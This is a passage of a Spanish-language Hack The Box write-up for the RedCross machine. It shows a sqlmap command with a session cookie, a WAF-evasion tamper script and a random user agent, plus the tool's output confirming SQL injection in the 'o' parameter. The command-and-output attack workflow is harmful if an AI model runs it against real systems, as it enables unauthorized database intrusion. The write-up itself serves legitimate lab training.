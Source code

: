 # SQLi

Después de explorar un poco el home (app), me di cuenta de la exposición de algunas variables, por lo que intente un sqli con algunos parámetros de evasión usando `sqlmap`:

``` text
xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.2#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:11:08 /2019-03-18/

[23:11:08] [INFO] loading tamper module 'space2comment'
[23:11:08] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.8.0.12) Gecko/20070508 Firefox/1.5.0.12' from file '/usr/share/sqlmap/txt/user-agents.txt'
[23:11:08] [INFO] testing connection to the target URL
[23:11:09] [INFO] testing if the target URL content is stable
[23:11:10] [INFO] target URL content is stable
[23:11:10] [INFO] testing if GET parameter 'o' is dynamic
[23:11:11] [INFO] GET parameter 'o' appears to be dynamic
[23:11:11] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[23:11:13] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[23:11:13] [INFO] testing for SQL injection on GET parameter 'o'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[23:11:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:11:45] [WARNING] reflective value(s) found and filtering out
[23:11:52] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:11:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:12:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:12:45] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[23:13:16] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[23:13:36] [INFO] GET parameter 'o' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="Web")
[23:13:36] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:13:37] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[23:13:37] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:13:38] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:13:39] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[23:13:39] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[23:13:40] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:13:41] [INFO] GET parameter 'o' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
```